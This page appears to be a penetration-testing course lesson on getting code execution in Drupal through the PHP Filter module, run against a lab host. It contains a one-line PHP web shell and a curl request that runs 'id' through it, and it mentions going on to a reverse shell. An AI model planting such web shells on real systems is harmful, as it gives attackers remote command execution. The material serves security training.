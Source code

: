 
<h1>Attacking Drupal</h1>
<hr/>
<p>Now that we've confirmed that we are facing Drupal and fingerprinted the version let's look and see what misconfigurations and vulnerabilities we can uncover to attempt to gain internal network access.</p>
<p>Unlike some CMS', obtaining a shell on a Drupal host via the admin console is not as easy as just editing a PHP file found within a theme or uploading a malicious PHP script.</p>
<hr/>
<h2>Leveraging the PHP Filter Module</h2>
<p>In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the <code>PHP filter</code> module, which "Allows embedded PHP code/snippets to be evaluated."</p>
<img class="website-screenshot" data-url="http://drupal-qa.inlanefreight.local/#overlay=admin/modules" src="/storage/modules/113/drupal_php_module.png"/>
<p>From here, we could tick the check box next to the module and scroll down to <code>Save configuration</code>. Next, we could go to Content --&gt; Add content and create a <code>Basic page</code>.</p>
<img class="website-screenshot" data-url="http://drupal-qa.inlanefreight.local/#overlay=node/add" src="/storage/modules/113/basic_page.png"/>
<p>We can now create a page with a malicious PHP snippet such as the one below. We named the parameter with an md5 hash instead of the common <code>cmd</code> to get in the practice of not potentially leaving a door open to an attacker during our assessment. If we used the standard <code>system($_GET['cmd']);</code> we open up ourselves up to a "drive-by" attacker potentially coming across our web shell. Though unlikely, better safe than sorry!</p>
<pre><code class="language-php">&lt;?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?&gt;
</code></pre>
<img class="website-screenshot" data-url="http://drupal-qa.inlanefreight.local/#overlay=node/add/page" src="/storage/modules/113/basic_page_shell_7v2.png"/>
<p>We also want to make sure to set <code>Text format</code> drop-down to <code>PHP code</code>. After clicking save, we will be redirected to the new page, in this example <code>http://drupal-qa.inlanefreight.local/node/3</code>. Once saved, we can either request execute commands in the browser by appending <code>?dcfdd5e021a869fcc6dfaef8bf31377e=id</code> to the end of the URL to run the <code>id</code> command or use <code>cURL</code> on the command line. From here, we could use a bash one-liner to obtain reverse shell access.</p>
<pre><code class="language-shell-session">[!bash!]$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d"&gt;"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<p>From version 8 onwards, the <a href="https://www.drupal.org/project/php/releases/8.x-1.1">PHP Filter</a> module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.</p>
<pre><code class="language-shell-session">[!bash!]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
</code></pre>
<p>Once downloaded go to <code>Administration</code> &gt; <code>Reports</code> &gt; <code>Available updates</code>.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Note: Location may differ based on the Drupal version and may be under the Extend menu.</p>
</div>
</div>
<img class="website-screenshot" data-url="http://drupal.inlanefreight.local/admin/reports/updates/install" src="/storage/modules/113/install_module.png"/>
<p>From here, click on <code>Browse,</code> select the file from the directory we downloaded it to, and then click <code>Install</code>.</p>
<p>Once the module is installed, we can click on <code>Content</code> and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select <code>PHP code</code> from the <code>Text format</code> dropdown.</p>